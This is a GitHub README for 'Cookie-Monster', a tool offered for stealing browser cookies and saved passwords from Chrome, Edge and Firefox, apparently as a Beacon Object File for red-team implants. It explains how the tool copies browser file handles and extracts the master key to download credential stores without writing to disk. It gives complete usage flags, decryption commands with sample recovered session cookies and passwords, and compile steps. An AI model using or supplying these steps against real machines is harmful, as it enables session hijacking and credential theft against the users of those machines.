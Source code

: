 # Cookie-Monster
Steal browser cookies for edge, chrome and firefox through a BOF or exe! 
Cookie-Monster will extract the WebKit master key, locate a browser process with a handle to the Cookies and Login Data files, copy the handle(s) and then filelessly download the target.
Once the Cookies/Login Data file(s) are downloaded, the python decryption script can help extract those secrets! Firefox module will parse the profiles.ini and locate where the logins.json and key4.db files are located and download them. A seperate github repo is referenced for offline decryption.  

## BOF Usage
```
Usage: cookie-monster [ --chrome || --edge || --firefox || --chromeCookiePID <pid> || --chromeLoginDataPID <PID> || --edgeCookiePID <pid> || --edgeLoginDataPID <pid>] 
cookie-monster Example: 
   cookie-monster --chrome 
   cookie-monster --edge 
   cookie-moster --firefox 
   cookie-monster --chromeCookiePID 1337
   cookie-monster --chromeLoginDataPID 1337
   cookie-monster --edgeCookiePID 4444
   cookie-monster --edgeLoginDataPID 4444
cookie-monster Options: 
    --chrome, looks at all running processes and handles, if one matches chrome.exe it copies the handle to Cookies/Login Data and then copies the file to the CWD 
    --edge, looks at all running processes and handles, if one matches msedge.exe it copies the handle to Cookies/Login Data and then copies the file to the CWD 
    --firefox, looks for profiles.ini and locates the key4.db and logins.json file 
    --chromeCookiePID, if chrome PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    --chromeLoginDataPID, if chrome PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
    --edgeCookiePID, if edge PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    --edgeLoginDataPID, if edge PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
```

## EXE usage
```
Cookie Monster Example:
  cookie-monster.exe --all 
Cookie Monster Options:
  -h, --help                     Show this help message and exit
  --all                          Run chrome, edge, and firefox methods
  --edge                         Extract edge keys and download Cookies/Login Data file to PWD
  --chrome                       Extract chrome keys and download Cookies/Login Data file to PWD
  --firefox                      Locate firefox key and Cookies, does not make a copy of either file
```
## Decryption Steps
Install requirements
```
pip3 install -r requirements.txt
```

Base64 encode the webkit masterkey
``` 
python3 base64-encode.py "\xec\xfc...."
```

Decrypt Chrome/Edge Cookies File
```
python .\decrypt.py "XHh..." --cookies ChromeCookie.db

Results Example:
-----------------------------------
Host: .github.com
Path: /
Name: dotcom_user
Cookie: KingOfTheNOPs
Expires: Oct 28 2024 21:25:22

Host: github.com
Path: /
Name: user_session
Cookie: x123.....
Expires: Nov 11 2023 21:25:22
```

Decrypt Chome/Edge Passwords File
```
python .\decrypt.py "XHh..." --passwords ChromePasswords.db

Results Example:
-----------------------------------
URL: https://test.com/
Username: tester
Password: McTesty
```
Decrypt Firefox Cookies and Stored Credentials: <br>
https://github.com/lclevy/firepwd

## Installation
Ensure Mingw-w64 and make is installed on the linux prior to compiling.
```
make
```

to compile exe on windows
```
gcc .\cookie-monster.c -o cookie-monster.exe -lshlwapi -lcrypt32
```

### TO-DO
- update decrypt.py to support firefox based on [firepwd](https://github.com/lclevy/firepwd) and add bruteforce module based on [DonPAPI](https://github.com/login-securite/DonPAPI)

## References
This project could not have been done without the help of Mr-Un1k0d3r and his amazing seasonal videos!
Highly recommend checking out his lessons!!! <br>
Cookie Webkit Master Key Extractor:
https://github.com/Mr-Un1k0d3r/Cookie-Graber-BOF <br>
Fileless download:
https://github.com/fortra/nanodump <br>
Decrypt Cookies and Login Data:
https://github.com/login-securite/DonPAPI

